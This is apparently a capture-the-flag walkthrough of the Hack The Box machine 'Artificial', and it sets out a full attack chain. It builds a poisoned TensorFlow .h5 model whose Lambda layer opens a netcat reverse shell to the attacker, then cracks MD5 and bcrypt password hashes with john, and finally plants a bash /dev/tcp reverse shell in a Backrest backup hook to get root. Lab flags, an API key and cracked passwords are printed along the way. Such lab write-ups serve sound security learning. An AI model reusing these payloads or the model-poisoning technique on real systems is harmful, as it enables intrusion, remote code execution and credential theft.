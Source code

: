 Let's scan the machine:
```bash
sudo nmap -v -sC -sV 10.10.11.74 -oN nmap/initial
```

![image](images/20250622184209.png)

Port `80` is open. Let's go to the website:

![image](images/20250622184414.png)

Create an account and get to the `dashboard`:

![image](images/20250622184650.png)

First, get the [.h5 file](https://github.com/openPMD/openPMD-example-datasets/blob/draft/example-femm-thetaMode.h5) and upload it to the server. We receive the following request:
```Reauest
POST /upload_model HTTP/1.1
Host: artificial.htb
Content-Type: multipart/form-data; boundary=----geckoformboundary53018d29f39236987995fe51717513ef
Content-Length: 182326
Origin: http://artificial.htb
Referer: http://artificial.htb/dashboard
Cookie: session=eyJ1c2VyX2lkIjoxMiwidXNlcm5hbWUiOiJkZXgxZCJ9.aFglRg.4C17yoZPh3lf30ebY4B1UcWwSN8

------geckoformboundary53018d29f39236987995fe51717513ef
Content-Disposition: form-data; name="model_file"; filename="example-femm-thetaMode.h5"
Content-Type: application/mipc

<!DOCTYPE html>
<html lang="en"
data-color-mode="auto" data-light-theme="light" data-dark-theme="dark"
data-a11y-animated-images="system" data-a11y-link-underlines="true">
```
After that, it redirects you back to the same page and this file appears there, next to which there is a button `View Predictions`. When clicked, the following request is sent:
<div style="page-break-after: always;"></div>

```Reauest
GET /run_model/95b919d1-27d8-4cd0-b456-f3ca21e70d31 HTTP/1.1
Host: artificial.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Referer: http://artificial.htb/dashboard
Cookie: session=eyJ1c2VyX2lkIjoxMiwidXNlcm5hbWUiOiJkZXgxZCJ9.aFglRg.4C17yoZPh3lf30ebY4B1UcWwSN8
```
Download `Dockerfile` and deploy him:
```bash
sudo docker build -t artificial-htb .
```
Let's run the container
```bash
sudo docker run -it --rm -v $(pwd):/mnt artificial-htb
```
Let's read the part of the [article](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model#getting-the-rce) that talks about doing `RCE` in `TensorFlow`.
**The key element here is the Lambda layer**, the other layers are just for show. However, in a real scenario, this malicious layer would probably be hidden among dozens of legitimate layers of the working model, so as not to arouse suspicion.
Let's write some code that will generate the `.h5` file we need with a reverse shell:
```Python
import tensorflow as tf

def exploit(x):
import os
os.system("rm -f /tmp/f;mknod /tmp/f p;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.93 4444 >/tmp/f")
return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```
The above script will create the `exploit.h5` file, which will execute the serialized exploit function and will create the file `/tmp/pwned`. **The exploit is triggered already when saving the model** (so you shouldn't write `rm -rf /` there, otherwise you can crash the whole system).
<div style="page-break-after: always;"></div>

> [!info] Note
> Instead of simple `sh | nc`, the chain `rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f | /bin/sh -i 2>&1 | nc IP PORT >/tmp/f` is used, because the named FIFO pipe (`/tmp/f`) closes stdin and stdout-stderr in a circle. This creates a full-fledged two-way reverse-shell, which works even where the unsafe `-e` option has been removed from `nc`.

We execute this script inside the container. After that, the file `exploit.h5` is created, which we must send to the server:

![image](images/20250625132734.png|500)

Click `View Predictions`:

![image](images/20250625132810.png)


![image](images/20250625132821.png)

The API key was found in the `app.py` code:
```API-key
Sup3rS3cr3tKey4rtIfici4L
```

![image](images/20250625133044.png)

Let's see what users are in the system:

![image](images/20250625145238.png)

There is a user `gael`. Also in the `instance` directory there is `users.db`. Let's see what's inside:
```bash
sqlite3 users.db
```
```SQLite3
Enter ".help" for usage hints.
sqlite> select * from user;
1|gael|gael@artificial.htb|c99175974b6e192936d97224638a34f8
2|mark|mark@artificial.htb|0f3d8c76530022670f1c6029eed09ccb
3|robert|robert@artificial.htb|b606c5f5136170 f15444251665638b36
4|royer|royer@artificial.htb|bc25b1f80f544c0ab451c02a3dca9fc6
5|mary|mary@artificial.htb|bf041041e57f1aff3be7ea1abd6129d0
6|notthei0204|notthei020 4@gmail.com|f0f1f60430a59e920764a7b1be6041fc
7|test123@gmail.com|test123@gmail.com|9a93efa79aa9f5d35e14bc55a3e16dc4
8|n|n@n.com|7b8b965ad4bca0e41ab51de7b31363a1
9|te st|test@email.com|098f6bcd4621d373cade4e832627b4f6
10|dd|dd@gmail.com|827ccb0eea8a706c4c34a16891f84e7b
11|ddd|ddd@gmail.com|77963b7a931377ad4ab5ad6a9cd718aa
```
<div style="page-break-after: always;"></div>

Let's break the hash:
```bash
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=Raw-md5
```

![image](images/20250625144958.png)

Password:
```Password
mattp005numbertwo
```
Let's try to connect to user `gael`:

![image](images/20250625145159.png)

```flag
8b0ba3b136c04b28745971beb2348e76
```
Let's fix the terminal:
```bash
export PS1='\u@\h:\w\$ '
```

![image](images/20250625145728.png)

Let's see what services are running locally:
```bash
netstat -tulpn
```

![image](images/20250625150856.png)

There is an interesting port `9898`. Let's forward it to our host and go to the site:
```bash
ssh 9898:localhost:9898 gael@10.10.11.74
```

![image](images/20250625151028.png)

**Backrest** is a web-based backup solution built on top of **restic**. **Backrest** provides a web interface that wraps the `restic` CLI and simplifies creating repositories, viewing snapshots, and restoring files. In addition, **Backrest** can run in the background, automatically create snapshots on a specified schedule, and perform operations to maintain the "health" of repositories.
Using the capabilities of `restic`, **Backrest** gets a mature, fast, reliable, and secure backup system at its disposal, complementing it with an intuitive interface.
Let's see if there are any backups in the system:

![image](images/20250625150819.png)

Copy `backrest_backup.tar.gz` to the home directory and unpack it:
```bash
cp /var/backups/backrest_backup.tar.gz .
```
```bash
tar -xf backrest_backup.tar.gz
```
The following was found in the `.config/backrest/config.json` config:

![image](images/20250625152555.png)

```base64
JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP
```
`passwordBcrypt` is a bcrypt hash, but before writing it to JSON, it was **additionally Base64 encoded**. Decode it

![image](images/20250625152704.png)

```bcrypt
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```
Now let's crack it:
```bash
sudo john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
```

![image](images/20250625152928.png)

The final password for `Backrest`:
```Password
!@#$%^
```
Log in

![image](images/20250625153004.png)


![image](images/20250625153109.png)

The `backrest` service (the web-UI for restic) is usually launched as a **systemd-unit from root**, in order to have access to all the directories that are given to it for backup.
When we create a plan (Plan) or a repository (Repo), **Backrest** subsequently launches `restic` itself **and all the "hooks" specified in the plan on behalf of the same user under which the service runs — that is, root**.
In the web-interface, these hooks are configured in literally a couple of clicks: it is either `Success Hook` or `Error Hook` — a command string that Backrest passes directly to `/bin/sh -c '<string>'`.
In fact, this is a built-in RCE functionality. You just need to give it your command and make the plan execute.
Create a repository.

![image](images/20250625154103.png)


>[!info] Note
>To create a local repository, specify `local:/path` in `Repository URI`

Create a plan. In `Hook`, select `Command` and enter the reverse shell there. Select that this command is called upon any error. The error will be due to the fact that we specify a non-existent directory `/not/a/directory`
```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.93/4444 0>&1'
```

![image](images/20250625153930.png)

We go to the plan and run the backup, having started listening to the port in advance:
```bash
sudo ncat -lvnp 4444
```

![image](images/20250625154457.png)


![image](images/20250625154700.png)


![image](images/20250625154645.png)

We got it flag
```flag
dc14188a0ff745ed57bcedd380bf2d63
```
